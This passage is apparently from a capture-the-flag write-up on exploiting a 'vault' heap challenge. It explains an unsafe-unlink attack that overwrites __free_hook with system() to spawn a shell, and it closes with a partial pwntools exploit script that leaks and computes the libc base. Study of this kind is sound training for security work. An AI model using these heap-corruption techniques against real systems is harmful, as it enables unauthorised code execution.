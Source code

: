 ```python

edit(0, b"X"*0x18 + p64(libc.sym.__free_hook) + p64(0x08) + p64(next(libc.search("/bin/sh"))))

edit(0, p64(libc.sym.system))
```

Use the "edit" option to overwrite the first entry in `vaults` again with the address of the free hook.<br>
Set the request size value of this entry to 8 and set up a pointer to an existing `/bin/sh` string in another `vaults` entry.<br>
Use the "edit" option once more to overwrite the free hook with the address of system().

Finally, lets use free to get shell!!<br>

#### For those who are still confused what's happening here I will try to explain.<br>

I guess you understood till the point where we set up `fd` and `bk` pointers. What's happening after free(1)?<br>
Unlink check is passed and we are effectively getting permission to write at `vaults-0x18`. How it's happening?<br>
Remember the Unlink Process?<br>

```c
// Let FD be P->fd and BK be P->bk
FD->bk = BK;
BK->fd = FD;
```

Here `FD` is `vaults-0x18` and `BK` is `vaults-0x10`. So effectively we are writing the address of `vaults-0x18` into `vaults` i.e we are changing the malloc pointer to `vaults-0x18`.

```python
edit(0, p64(0)*3 + p64(free_hook-0x8))
```

After this step we are effectively writing the address of `free_hook-0x8` into `vaults`, i.e we are changing the malloc pointer to `free_hook-0x8`.<br>
So we can use the `edit` function to write the `/bin/sh` string and the `system` address into the appropriate locations.

# 0x04 Exploit Script

```python
from pwn import *

elf = context.binary = ELF('./vault_patched')
libc = elf.libc

def malloc(index):
    p.sendline(b'1')
    p.sendline(str(index).encode())
def edit(index, data):
    p.sendline(b'2')
    p.sendline(str(index).encode())
    p.sendline(data)
def free(index):
    p.sendline(b'3')
    p.sendline(str(index).encode())

p = process('./vault_patched')
p.recvuntil(b'0x')
leak = int(p.recvline().strip(), 16)
log.critical(f"Leak: {leak:#x}")
libc.address = leak - 0x6faf0
log.info(f"Libc base: {libc.address:#x}")
```